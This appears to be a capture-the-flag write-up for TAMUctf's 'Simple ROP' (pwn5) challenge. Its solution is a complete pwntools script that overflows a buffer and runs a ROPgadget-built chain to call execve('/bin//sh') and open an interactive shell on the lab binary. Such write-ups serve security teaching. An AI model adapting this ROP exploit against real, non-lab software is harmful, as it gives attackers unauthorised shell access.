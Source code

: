 # Simple ROP

## Challenge
`nc pwn5.tamuctf.com`

## Setup
Build the docker container docker `build -t pwn5 .` and run it `docker run pwn5`

## Solution
Notice that the binary is now static and get a simple ROP Chain going. This can be done with:  
`ROPgadget --ropchain --binary ./pwn5`.  
Below is a sample solution script. This will have to be modified with a new chain everytime the binary is recompiled.
```python
from pwn import *

#r = process('./pwn5')
r = remote('172.17.0.2', 4325)
        # Padding goes here
p = '/'*17

p += p32( 0x0806f68a) # pop edx ; ret
p += p32( 0x080eb060) # @ .data
p += p32( 0x080b8836) # pop eax ; ret
p += '/bin'
p += p32( 0x0805501b) # mov dword ptr [edx], eax ; ret
p += p32( 0x0806f68a) # pop edx ; ret
p += p32( 0x080eb064) # @ .data + 4
p += p32( 0x080b8836) # pop eax ; ret
p += '//sh'
p += p32( 0x0805501b) # mov dword ptr [edx], eax ; ret
p += p32( 0x0806f68a) # pop edx ; ret
p += p32( 0x080eb068) # @ .data + 8
p += p32( 0x08049373) # xor eax, eax ; ret
p += p32( 0x0805501b) # mov dword ptr [edx], eax ; ret
p += p32( 0x080481c9) # pop ebx ; ret
p += p32( 0x080eb060) # @ .data
p += p32( 0x080df3bd) # pop ecx ; ret
p += p32( 0x080eb068) # @ .data + 8
p += p32( 0x0806f68a) # pop edx ; ret
p += p32( 0x080eb068) # @ .data + 8
p += p32( 0x08049373) # xor eax, eax ; ret
p += p32( 0x0807aecf) # inc eax ; ret
p += p32( 0x0807aecf) # inc eax ; ret
p += p32( 0x0807aecf) # inc eax ; ret
p += p32( 0x0807aecf) # inc eax ; ret
p += p32( 0x0807aecf) # inc eax ; ret
p += p32( 0x0807aecf) # inc eax ; ret
p += p32( 0x0807aecf) # inc eax ; ret
p += p32( 0x0807aecf) # inc eax ; ret
p += p32( 0x0807aecf) # inc eax ; ret
p += p32( 0x0807aecf) # inc eax ; ret
p += p32( 0x0807aecf) # inc eax ; ret
p += p32( 0x0806d2d7) # int 0x80

r.sendline(p)
r.interactive()
```
